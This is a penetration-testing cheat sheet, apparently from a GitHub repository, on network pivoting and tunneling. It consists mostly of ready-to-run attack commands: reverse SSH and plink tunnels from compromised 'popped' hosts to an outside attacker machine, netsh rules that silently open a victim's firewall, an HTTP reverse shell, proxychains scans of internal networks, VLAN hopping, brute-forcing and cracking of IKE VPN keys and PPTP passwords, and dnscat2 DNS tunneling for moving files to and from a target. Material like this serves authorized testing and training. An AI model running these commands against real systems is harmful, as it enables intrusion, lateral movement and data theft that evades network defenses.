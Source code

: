 # [](#networking-pivoting-and-tunneling)Networking, Pivoting and Tunneling

*   Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port

    *   `apt-get install rinetd`

    *   `cat /etc/rinetd.conf`

            # bindadress bindport connectaddress connectport
            w.x.y.z 53 a.b.c.d 80

*   SSH Local Port Forwarding: supports bi-directional communication channels

    *   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`
*   SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network

    *   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`
*   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

    *   `ssh -D <local proxy port> -p <remote port> <target>`
*   Proxychains - Perform nmap scan within a DMZ from an external computer

    *   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com` `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    *   Create a Dynamic application-level port forward on 8080 thru 2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    *   Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

*   HTTP Tunneling

    `nc -vvn $ip 8888`

*   Traffic Encapsulation - Bypassing deep packet inspection

    *   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80` On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
*   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network

    *   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    *   Port 22 blocked? Try port 80? or 443?

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

*   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

    *   Windows machine add required firewall rules without prompting the user

    *   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    *   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    *   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    *   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    *   Start the http tunnel client

        `httptunnel_client.exe`

    *   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

*   VLAN Hopping

    *   <div class="highlight highlight-source-shell">

        <pre>git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh</pre>

        </div>

*   VPN Hacking

    *   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    *   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    *   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`

        `git clone https://github.com/SpiderLabs/ikeforce.git`

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`

        Bruteforce IKE VPN using IKEForce:

        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1` Use ike-scan to capture the PSK hash:

        <div class="highlight highlight-source-shell">

        <pre>ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example<span class="pl-cce">\_</span>group -P hash-file.txt TARGET-IP</pre>

        </div>

        Use psk-crack to crack the PSK hash

        <div class="highlight highlight-source-shell">

        <pre>psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset=<span class="pl-s"><span class="pl-pds">"</span>01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz<span class="pl-pds">"</span></span> 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key</pre>

        </div>

*   PPTP Hacking

    *   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)` PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

*   Port Forwarding/Redirection

*   PuTTY Link tunnel - SSH Tunneling

    *   Forward remote port to local address:

        `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

*   SSH Pivoting

    *   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

*   DNS Tunneling

    *   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    *   Attacking Machine Installation:

        <div class="highlight highlight-source-shell">

        <pre>apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        <span class="pl-c1">cd</span> dnscat2/server  
        bundle install</pre>

        </div>

    *   Run dnscat2:

            ruby ./dnscat2.rb  
            dnscat2> New session established: 1422  
            dnscat2> session -i 1422

    *   Target Machine:  
        [_https://downloads.skullsecurity.org/dnscat2/_](http://web.archive.org/web/20171113221652/https://downloads.skullsecurity.org/dnscat2/)

        [_https://github.com/lukebaggett/dnscat2-powershell/_](http://web.archive.org/web/20171113221652/https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`
